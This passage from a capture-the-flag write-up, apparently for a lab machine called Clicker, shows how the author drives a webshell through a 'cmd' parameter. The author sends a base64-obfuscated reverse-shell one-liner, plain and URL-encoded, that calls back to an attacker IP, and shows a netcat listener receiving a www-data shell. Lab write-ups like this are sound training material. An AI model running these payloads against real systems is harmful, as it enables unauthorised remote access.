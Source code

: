 Add `&cmd=$COMMAND` because the webshell code is used `$GET_` cmd

To revshell we using echo command with base64 decode and bash to revshell

Without Url Encode
```
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIyLzEzMzcgMD4mMQ==" | base64 -d | bash
```

With url encode
```
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIyLzEzMzcgMD4mMQ==%22%20|%20base64%20-d%20|%20bash
```

![](/images/clicker/2024-01-27-12-25-24.png)

There is base64 decode so to create a revshell payload you can generate here [Revshells](https://www.revshells.com/)
Change `bash` to `sh` 

## Shell as jack

```
─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.232] 41614
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
